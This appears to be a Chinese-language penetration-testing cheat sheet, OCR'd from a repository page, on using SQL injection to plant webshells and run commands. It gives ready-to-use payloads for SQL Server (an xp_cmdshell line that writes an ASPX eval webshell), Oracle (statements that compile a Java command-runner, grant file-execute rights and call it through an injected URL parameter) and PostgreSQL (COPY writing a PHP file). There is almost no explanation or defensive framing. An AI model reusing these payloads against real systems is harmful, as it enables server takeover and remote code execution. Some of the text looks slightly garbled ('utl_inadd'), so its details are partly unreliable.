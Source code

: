 * 步骤
  * 第一步：写webshell
  * 第二步：访问webshell
  
* 类型

  * MySQL

  * SQLserver
  
    存储过程xp_cmdshell

    ```sql
    ;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > D:\\WWW\\2333.aspx' ;--
    ```

  * Oracle
  
    * 创建JAVA包

      ```sql
      select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
      ```

    * JAVA权限
  
      ```sql
      select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;
      ```

    
  
    * 创建函数

      ```sql
      select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
      ```

    * URL执行
  
      ```sql
      id=602'||utl_inadd.get_host_name((select LinxRUNCMD('cmd /c dir d:/') from dual))--
      ```

  * postgresql
  
    ```sql
    COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
    ```
